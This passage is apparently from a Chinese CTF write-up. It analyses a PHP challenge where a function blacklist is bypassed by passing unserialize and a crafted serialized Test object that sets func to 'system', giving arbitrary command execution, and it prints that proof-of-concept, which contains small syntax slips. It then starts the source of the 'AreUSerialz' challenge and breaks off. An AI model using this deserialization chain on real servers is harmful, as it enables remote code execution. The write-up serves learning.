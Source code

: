 ```

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```
最简单的，但是有一些弯弯绕绕

### 代码分析
1. 页面接受两个POST传参：func p
2. call_user_func($func, $p)是敏感函数，其第一个参数是php函数名，第二个参数是函数的传参，其功能就是调用并执行函数
3. 这确实可以执行函数，但是经过了严格的过滤，当然，file_get_contents和unserialize函数是可以使用的
4. 原题通过file_get_contents阅读代码
5. 改网页对func进行了过滤，但是没有对p，同时有一个调用了敏感函数入口gettime的Test类，所以可以手动执行unserialize函数，并构造poc链

## poc
```
<?php
class Test {
	var p;
	var func; //由于序列化后的对象没有了方法，所以那些多余的东西根本不用写根本不用写
}
$a = new Test();
$a->p = "pwd";
$a->func = "system";

echo serialize($a);
//echo urlencode(serialize($a);
?>
```
然后传参，func为unserialize，p为poc链，现在可以执行任意系统命令和代码了
## 2020-网鼎杯-青龙组-Web-AreUSerialz
```
<?php
 
include("flag.php");
 
highlight_file(__FILE__);
 
class FileHandler {
 
    protected $op;
    protected $filename;
    protected $content;
 
    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }
 
    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
```